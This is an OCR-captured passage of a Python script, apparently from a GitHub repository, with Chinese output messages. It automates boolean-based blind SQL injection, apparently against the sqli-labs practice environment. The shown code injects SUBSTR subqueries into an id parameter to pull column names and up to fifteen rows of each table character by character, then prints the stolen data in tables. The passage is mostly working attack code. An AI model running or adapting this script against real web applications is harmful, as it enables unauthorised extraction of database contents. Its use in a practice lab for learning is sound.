   ```
                      if "You are in.... Use outfile......" in r:
                          column_name += char
                          print(Fore.BLUE + f"字段 '{table_name}' 字符 {length}: {char}" + Style.RESET_ALL)
                          break
              column_names.append(column_name.strip())
  
          print(Fore.CYAN + f"获取的字段名: {column_names}" + Style.RESET_ALL)
  
          rows_count = 15
          data = []
          for row in range(rows_count):
              row_data = {}
              for field in column_names:
                  field_data = ""
                  for length in range(1, max_length + 1):
                      for char in charset:
                          payload = (
                              f"?id=1')) AND SUBSTR((SELECT {field} FROM {table_name} LIMIT {row}, 1), {length}, 1)='{char}' --+"
                          )
                          r = await fetch(session, payload)
  
                          if "You are in.... Use outfile......" in r:
                              field_data += char
                              print(Fore.GREEN + f"第{row + 1}行, 字段 '{field}', 字符 {length}: {char}" + Style.RESET_ALL)
                              break
                      else:
                          break
                  row_data[field] = field_data.strip()
  
              if row_data and any(row_data.values()):
                  data.append(row_data)
  
          all_data[table_name] = data
  
      return all_data
  
  async def main():
      async with aiohttp.ClientSession() as session:
          database_name = await get_database_name(session)
          table_names = await get_table_names(session)
          data = await get_fields_and_data(session, table_names)
  
          print("\n最终获取的信息:")
  
          db_table = PrettyTable()
          db_table.field_names = ["Database"]
          db_table.add_row([database_name])
          print(db_table)
  
          for table, rows in data.items():
              print(f"\n表名: {table}")
              table_output = PrettyTable()
              if rows:  # 检查是否有行数据
                  table_output.field_names = rows[0].keys()
                  for row in rows:
                      table_output.add_row(row.values())
                  print(table_output)
              else:
                  print(Fore.RED + f"该表没有数据。" + Style.RESET_ALL)
  
  ```